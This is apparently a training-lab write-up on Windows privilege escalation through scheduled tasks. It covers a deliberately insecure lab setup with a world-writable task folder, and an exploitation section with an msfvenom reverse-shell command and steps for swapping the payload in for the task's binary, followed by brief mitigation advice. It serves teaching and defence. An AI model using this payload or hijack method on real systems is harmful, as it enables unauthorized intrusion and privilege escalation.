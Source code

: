 # Scheduled Task/Job

## Table of Contents

- [Scheduled Task/Job](#scheduled-taskJob)
  - [Table of Contents](#table-of-contents)
  - [Description](#description)
  - [Lab Setup](#lab-setup)
    - [Manual Lab Setup](#manual-lab-setup)
    - [PowerShell Script Lab Setup](#powershell-script-lab-setup)
  - [Enumeration](#enumeration)
  - [Exploitation](#exploitation)
  - [Mitigation](#mitigation)
  - [References](#references)

## Description

The Task Scheduler is a Windows feature that enables users to automate the execution of tasks or programs at specific times or under particular conditions.

Attackers can exploit pre-configured tasks associated with privileged accounts to gain elevated access. By manipulating these tasks, they can run unauthorized programs, scripts, or commands, thereby exerting more control over the system than intended.

## Lab Setup

### Manual Lab Setup

:warning: <b>If you are using Windows 10/11 to proceed with this scenario, the local Administrator account needs to be enabled. I have created a PowerShell script named [EnableLocalAdmin.ps1](/Lab-Setup-Scripts/EnableLocalAdmin.ps1), designed to enable the local Administrator account and set a password. Please run this script with elevated privileges.</b>

1) Create a folder named 'Jobs' in the C:\ directory.

2) Download the file [Monitor_AMD64.exe](/Lab-Setup-Binary/Monitor_AMD64.exe) to the 'C:\Jobs' directory.

3) Open a Command Prompt with local Administrator privileges and run the following command to grant write permissions to all built-in users for the 'C:\Jobs' directory:

```
icacls "C:\Jobs" /grant Users:(OI)(CI)M
```

Outcome:

![Grant-Write-Permissions-To-All-Built-in-Users](/Pictures/Taskscheduler-0.png)

4) Then, run this command `taskschd.msc` to open the Task Scheduler.

5) Create a new task on Task Scheduler:

![Create-A-New-Task](/Pictures/Taskscheduler-2.png)

6) Assign a task to the logged-in user to be executed with the highest privileges:

![Create-A-New-Task-2](/Pictures/Taskscheduler-3.png)

7) Select the trigger tab to initiate a scheduled task:

![Create-A-New-Task-3](/Pictures/Taskscheduler-4.png)

8) Configure the task schedule trigger to recur:

![Create-A-New-Task-4](/Pictures/Taskscheduler-5.png)

9) Specify the action that will occur when your task starts:

![Create-A-New-Task-5](/Pictures/Taskscheduler-6.png)

10) Specify the type of action to be performed by a scheduled task:

![Create-A-New-Task-6](/Pictures/Taskscheduler-7.png)

11) In the tab named "Conditions," uncheck all the boxes:

![Create-A-New-Task-7](/Pictures/Taskscheduler-12.png)

12) In the tab named "Settings," check the following boxes as shown in the picture:

![Create-A-New-Task-8](/Pictures/Taskscheduler-13.png)

13) Verify the new schedule task:

![Verify-New-Task](/Pictures/Taskscheduler-8.png)

### PowerShell Script Lab Setup 

:warning: <b>If you are using Windows 10/11 to proceed with this scenario, the local Administrator account needs to be enabled. I have created a PowerShell script named [EnableLocalAdmin.ps1](/Lab-Setup-Scripts/EnableLocalAdmin.ps1), designed to enable the local Administrator account and set a password. Please run this script with elevated privileges.</b>

To set up the lab with the 'Scheduled Task/Job' scenario is by using the custom PowerShell script named [TaskScheduler.ps1](/Lab-Setup-Scripts/TaskScheduler.ps1).

Open a PowerShelll with local Administrator privileges and run the script:

```
.\TaskScheduler.ps1
```

Outcome:

![Create-A-New-Task-Script-Setup](/Pictures/Taskscheduler-14.png)

### Enumeration

To find all scheduled tasks of the current user using the Command Prompt, you can use the `schtasks` command:

```
schtasks /query /fo LIST /v
```

Outcome:

![Task-Scheduler-Enumeration](/Pictures/Taskscheduler-Enumeration.png)

## Exploitation

1) Use msfvenom to generate a malicious executable (exe) file that can be executed via the 'MagicTask' scheduled task:

```
msfvenom -p windows/x64/shell_reverse_tcp lhost=eth0 lport=1234 -f exe > shell.exe
```

2) Transfer the malicious executable file to victim's machine.

3) Move the malicious executable file to 'C:\Jobs'.

4) Rename the 'Monitor_AMD64.exe' to 'Monitor_AMD64.bak'.

5) Rename the malicious exe (shell.exe) to 'Monitor_AMD64.exe'.

Outcome:

![Task-Scheduler-All-Above-Actions](/Pictures/Taskscheduler-10.png)

6) Open a listener on your Kali machine.

7) Wait five minutes and verify the reverse shell on your Kali machine:

![Task-Scheduler-Verify-Reverse-Shell](/Pictures/Taskscheduler-11.png)

## Mitigation

Set the scheduled tasks to execute with the least privileged account capable of fulfilling the task's requirements. Avoid using system-level or administrator-level accounts unless absolutely necessary. Additionally, regularly review and manage user access control lists (ACLs) to ensure that only authorized users have the ability to create, modify, or delete scheduled tasks.

## References

- [Task Scheduler for developers Microsoft](https://learn.microsoft.com/en-us/windows/win32/taskschd/task-scheduler-start-page)
